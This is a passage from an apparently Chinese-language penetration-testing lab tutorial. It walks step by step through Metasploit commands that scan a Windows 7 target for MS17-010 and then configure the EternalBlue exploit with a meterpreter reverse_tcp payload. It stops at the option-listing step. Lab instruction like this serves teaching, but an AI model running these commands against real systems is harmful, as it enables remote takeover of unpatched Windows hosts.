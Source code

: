 ### 1.使用扫描模块

msf6 > use auxiliary/scanner/smb/smb_ms17_010 
该模块不会直接在攻击机和靶机之间建立访问，它们只负责执行扫描，嗅探，指纹识别等相关功能以辅助渗透测试。

### 2.查看模块需要配置的参数

msf6 > show options
右边Required项为yes的选项，说明左边 Current Setting 这个项对应的需要填写
比如：RHOSTS设置攻击目标

![img](https://img-blog.csdnimg.cn/img_convert/259a843b23acaea486b42793701f1bbe.png)

### 3.探测目标主机是否存在该漏洞

msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 192.168.109.130   设置目标主机

msf6 auxiliary(scanner/smb/smb_ms17_010) > exploit                      开始扫描

RHOSTS 参数是要探测主机的ip或ip范围（192.168.109.120-192.168.109.140 或者 192.168.1.0/24）

图中带[+]符号表示该主机192.168.109.130存在此漏洞（正是我们的靶机win7）

## 五、使用ms17-010攻击模块，对靶机进行攻击

msf6 auxiliary(scanner/smb/smb_ms17_010) > use exploit/windows/smb/ms17_010_eternalblue

msf6 exploit(windows/smb/ms17_010_eternalblue) > info    
查看当前漏洞信息

msf6 exploit(windows/smb/ms17_010_eternalblue) > show targets    
显示该攻击模块针对哪些特定操作系统版本、语言版本的系统

有些其他的漏洞模块对操作系统的语言和版本要求的很严，比如MS08_067，这样就要我们指定目标系统的版本的
如果不设置的话，MSF会自动帮我们判断目标操作系统的版本和语言(利用目标系统的指纹特征)

![img](https://img-blog.csdnimg.cn/img_convert/2124891606afa74168bba1cd3c482331.png)

### 1.查看攻击载荷

msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

### 2.设置攻击载荷

msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp

![img](https://img-blog.csdnimg.cn/img_convert/2d86690a34d86b23d48f07efb3dfa843.png)

### 3.查看配置参数

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```

![img](https://img-blog.csdnimg.cn/img_convert/3aa504e2e80f82dd9da140385df7ea3d.png)
